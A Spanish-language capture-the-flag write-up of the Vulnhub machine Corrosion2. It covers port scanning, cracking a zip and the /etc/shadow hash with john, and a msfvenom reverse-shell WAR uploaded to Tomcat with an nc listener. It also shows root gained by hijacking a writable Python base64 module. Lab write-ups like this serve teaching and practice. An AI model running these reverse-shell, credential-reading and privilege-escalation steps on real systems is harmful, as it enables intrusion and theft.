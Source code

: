 ```yaml
---
title: Vulnhub - Corrosion2
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Information Leakage', 'Python Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Corrosion2/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Corrosion2 Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Information Leakage, Python Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Corrosion2/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Corrosion2/02-versions.png)

c. Fuzzeamos por directorios en el servicio web por el puerto **8080**

```bash
nmap -p8080 --script http-enum 192.168.100.22
```

![](/assets/images/Vulnhub/Easy/Corrosion2/03-fuzz.png)

* Nos descargamos el fichero /backup.zip, como está encriptado usaremos **zip2john backup.zip > hash** y crackeamos el hash con john

    ```bash
    john hash -w=/usr/share/wordlists/rockyou.txt 
    @administrator_hi5
    ```

* Al descomprimir **backup.zip** veremos el archivo tomcat-users.xml que tiene las siguientes credenciales

    ```xml
    <role rolename="manager-gui"/>
    <user username="manager" password="melehifokivai" roles="manager-gui"/>
    
    <role rolename="admin-gui"/>
    <user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
    ```

d. Ahora nos autenticamos en el servicio de Tomcat con las credenciales **admin:melehifokivai**

![](/assets/images/Vulnhub/Easy/Corrosion2/04-war.png)

* Subiremos un archivo **.war** malicioso el cual nos permita entablarnos una reverse shell

    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP Atacante> LPORT=443 -f war -o ./backup.war
    ```
    > Creamos el fichero .war con msfvenom

* Nos podemos en escuchar con nc y ejecutamos el fichero malicioso dando click en:

![](/assets/images/Vulnhub/Easy/Corrosion2/05-app.png)

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.100.70] from (UNKNOWN) [192.168.100.22] 34048
script /dev/null -c bash
Script started, file is /dev/null
bash-5.0$
```

### Escalada de Privilegios 💹

a. Vemos que existen más usuarios por lo que intentamos convertirnos en alguno con la misma credencial de Tomcat

```bash
tomcat@corrosion:/var/spool/cron$ cd /home/
tomcat@corrosion:/home$ ls
jaye  randy
tomcat@corrosion:/home$ su jaye
Password: melehifokivai
bash-5.0$ whoami
jaye
```

b. Listamos binarios con permisos SUID

```bash
jaye@corrosion:/home$ find / -perm -4000 2>/dev/null

/home/jaye/Files/look
<SNIP>
```

* **look** nos permite leer archivos, en este caso, podemos leer archivos a los cuales no tenemos acceso.

    ```bash
    jaye@corrosion:~/Files$ ./look '' /etc/shadow

    <SNIP>
    randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
    ```

* Crackeamos el hash

    ```bash
    john randy_hash -w=/usr/share/wordlists/rockyou.txt 
    07051986randy    (?)
    ```

c. Nos convertimos en randy y listamos posibles permisos en el archivo **sudoers**

```bash
randy@corrosion:/home/jaye/Files$ sudo -l
[sudo] password for randy: 

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

* Contenido del fichero **/home/randy/randombase64.py**

    ```py
    import base64

    message = input("Enter your string: ")
    message_bytes = message.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    print(base64_message)
    ```

* También vemos un fichero note.txt

    ```bash
    Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know
    that I changed your permissions for your home directory. You won't be able to remove or add files for now.

    I will change these permissions later on.

    See you next Monday randy!
    ```
    > Nos dicen que no podemos modificar o crear archivos en nuestro directorio de usuario.

* Vemos que se usa la librería **base64**, pero, como no podemos crear un ficheros en nuestro directorio, no podemos suplantar el módulo base64 por lo que veremos si podemos alterar el módulo nativo

    ```bash
    randy@corrosion:~$ locate base64
    /usr/lib/python3.8/base64.py
    <SNIP>
    randy@corrosion:~$ ls -al /usr/lib/python3.8/base64.py
    -rwxrwxrwx 1 root root 43 Aug 10 11:28 /usr/lib/python3.8/base64.py
    ```

* Al tener permisos para editar el **módulo nativo** lo que haremos es eliminar su contenido y sustituirlo por 

    ```py
    randy@corrosion:~$ cat /usr/lib/python3.8/base64.py
    import os

    os.system("chmod +s /bin/bash")
    ```

d. Por último, ejecutamos el programa **/home/randy/randombase64.py**

```bash
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: s
randy@corrosion:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
randy@corrosion:~$ bash -p
bash-5.0# whoami
root
```